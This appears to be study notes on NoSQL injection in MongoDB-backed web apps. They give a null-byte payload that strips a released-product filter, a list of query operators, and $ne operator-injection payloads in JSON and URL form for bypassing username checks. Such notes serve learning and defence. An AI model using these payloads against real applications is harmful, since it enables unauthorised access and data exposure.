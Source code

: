 As the injected condition is always true, the modified query returns all items. This enables you to view all the products in any category, including hidden or unknown categories.

You could also add a **null payload injection** after the category value.
For example, the query may have an additional `this.released` restriction:
```js
this.category == 'fizzy' && this.released == 1
```
The restriction `this.released == 1` is used to only show products that are released. For unreleased products, presumably `this.released == 0`.

In this case, an attacker could construct an attack as follows:
```http
https://insecure-website.com/product/lookup?category=fizzy'%00
```
This results in the following NoSQL query:
```js
this.category == 'fizzy'\u0000' && this.released == 1
```
If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the fizzy category are displayed, including unreleased products.

---
# Operator Injection
`$where` - Matches documents that satisfy a JavaScript expression.
`$ne` - Matches all values that are not equal to a specified value.
`$in` - Matches all of the values specified in an array.
`$regex` - Selects documents where values match a specified regular expression.
`$gt` - Matches all values that are greater than the specified value.
`$lt` - Matches all values that are lesser than the specified value.
`$gte` - Matches all values that are greater than/equal to the specified value.
`$lte` - Matches all values that are lesser than/equal to the specified value.


### Submitting Query Parameters
1) JSON-based Input
```js
{"username":"weiner"}
// Becomes
{"username":{"$ne":"invalid"}}
```

2) URL-based Input
```http
http://10.93.23.12/?username=weiner
Becomes
http://10.93.23.12/?username[$ne]=invalid
```

If this doesn't work :-
- Convert the request method from `GET` to `POST`.
- Change the Content-Type header to **application/json**.
- Add JSON to the message body.
- Inject query operators in the JSON.
